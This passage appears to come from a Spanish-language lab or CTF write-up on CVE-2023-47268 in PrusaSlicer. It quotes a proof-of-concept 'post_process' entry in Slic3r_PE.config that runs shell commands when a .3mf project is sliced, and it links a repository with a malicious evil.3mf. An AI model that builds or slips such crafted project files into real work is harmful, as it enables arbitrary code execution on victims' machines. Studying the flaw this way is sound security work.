 ```bash

Print options are processed in the following order:
  1) Config keys from the command line, for example --fill-pattern=stars
     (highest priority, overwrites everything below)
  2) Config files loaded with --load
  3) Config values loaded from amf or 3mf files

Run --help-fff / --help-sla to see the full listing of print options.

```

Vemos que se puede ejecutar código

arbitrario mirando la versión del programa en [exploit-db](https://www.exploit-db.com/exploits/51983)


### CVE-2023-47268

Segun [exploit-db](https://www.exploit-db.com/exploits/51983):

For the linux PoC, this CLI command is enough to execute the payload contained in the project. './prusa-slicer -s code-exec-linux.3mf'. After slicing, a new file '/tmp/hax' will be created. This particular PoC contains this 'post_process' entry in the 'Slic3r_PE.config' file:  

El exploit  permite la ejecución de código arbitrario al manipular el archivo `Slic3r_PE.config` dentro de un proyecto `.3mf` de PrusaSlicer.

El archivo `Slic3r_PE.config` es donde se define la configuración del proyecto y contiene la entrada `post_process`, que se utiliza para ejecutar scripts después de generar el archivo G-code. En este caso, modificaremos esta entrada para incluir nuestro payload .

Slic3r_PE.config:
```config
; post_process = "/usr/bin/id > /tmp/hax #\necho 'arbitrary code execution! (x_x)'>> /tmp/hax #"
```



## Poc

En el siguiente repositorio de github ya tenemos un archivo .3mf malicioso 
https://github.com/suce0155/prusaslicer_exploit.git

Lo descomprimimos y observamos el arbol de directorio de los archivos .3mf y como este ejecuta el codigo arbitrario;

Para extraerlo usamos unzip o 7z cualquiera vale;

```bash
total 64K
drwxrwxr-x 4 kali kali 4,0K feb 14 20:00 .
drwxrwxr-x 6 kali kali 4,0K feb 14 19:52 ..
-rw-rw-r-- 1 kali kali  39K feb 14 19:52 evil.3mf
-rw-rw-r-- 1 kali kali   42 feb 14 19:52 exploit.sh
drwxrwxr-x 5 kali kali 4,0K feb 14 20:00 Extracted
drwxrwxr-x 8 kali kali 4,0K feb 14 19:52 .git
-rw-rw-r-- 1 kali kali  369 feb 14 19:52 README.md
➜  prusaslicer_exploit git:(main) ✗ tree Extracted 
Extracted
├── 3D
│   └── 3dmodel.model
├── [Content_Types].xml
├── Metadata
│   ├── Slic3r_PE.config
│   ├── Slic3r_PE_model.config
│   └── thumbnail.png
└── _rels

```